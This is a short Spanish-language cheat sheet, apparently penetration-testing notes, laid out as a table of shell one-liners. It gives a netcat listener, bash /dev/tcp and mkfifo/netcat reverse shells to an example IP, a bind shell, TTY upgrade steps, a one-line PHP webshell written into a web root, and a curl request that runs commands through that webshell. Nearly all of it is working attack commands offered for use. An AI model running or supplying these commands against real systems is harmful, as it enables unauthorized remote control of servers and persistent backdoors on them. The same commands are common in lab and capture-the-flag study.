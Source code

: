 
--------------------------------------------------------------------------

#shell #revshell 

---------

|                                                                                    |                                                                    |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| **Uso de shells**                                                                  |                                                                    |
| `nc -lvnp 1234`                                                                    | Iniciar un agente de escucha en un puerto local`nc`                |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Enviar un shell inverso desde el servidor remoto                   |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Otro comando para enviar un shell inverso desde el servidor remoto |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Iniciar un shell de enlace en el servidor remoto                   |
| `nc 10.10.10.1 1234`                                                               | Conexión a un shell de enlace iniciado en el servidor remoto       |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Shell de actualización TTY (1)                                     |
| `ctrl+z` luego luego luego dos veces`stty raw -echo``fg``enter`                    | Shell de actualización TTY (2)                                     |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Crear un archivo php de webshell                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Ejecutar un comando en un webshell cargado                         |
